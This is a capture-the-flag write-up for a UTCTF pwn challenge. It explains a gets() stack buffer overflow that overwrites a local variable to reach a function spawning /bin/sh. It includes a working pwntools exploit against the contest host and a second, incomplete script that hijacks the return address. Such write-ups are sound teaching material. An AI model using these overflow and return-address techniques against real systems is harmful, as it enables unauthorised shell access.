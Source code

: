 `gets` is the vulnerability.  The objective is to overflow the input buffer (`local_78`) to overwrite `local_9` with the character `B` to call `get_flag()` below.

`local_78` is `0x78` bytes from the base of the stack frame (right above the return address `main` will jump to on `return`).  To get to `local_9`, just write `0x78 - 0x9` bytes of garbage followed by `B`, and the flag is yours:

```c
void get_flag(void)
{
  char *local_18;
  undefined8 local_10;
  
  local_18 = "/bin/sh";
  local_10 = 0;
  execve("/bin/sh",&local_18,(char **)0x0);
  return;
}
```

`get_flag` should really be called `get_shell`, once you have a shell type `cat flag.txt`.

That's it.


## Exploit(s)

```python
#!/usr/bin/env python3

from pwn import *

p = remote('pwn.utctf.live', 5000)

payload  = b''
payload += (0x78 - 0x9) * b'A'
payload += b'B'

p.sendline(payload)
p.interactive()
```

See _Analysis_ above for an explaination.

But, what if there wasn't a check for `B`?  What if this was missing:

```
  if (local_9 == 'B') {
    get_flag();
  }
```

No problem, we'll just have to call `get_flag` ourselves:  

```python
#!/usr/bin/env python3

from pwn import *

binary = context.binary = ELF('./AAAAAAAAAAAAAAAA',checksec=False)

if args.REMOTE:
    p = remote('pwn.utctf.live', 5000)
else:
    p = process(binary.path)

payload  = b''
payload += 0x78 * b'A'
payload += p64(binary.sym.get_flag)
```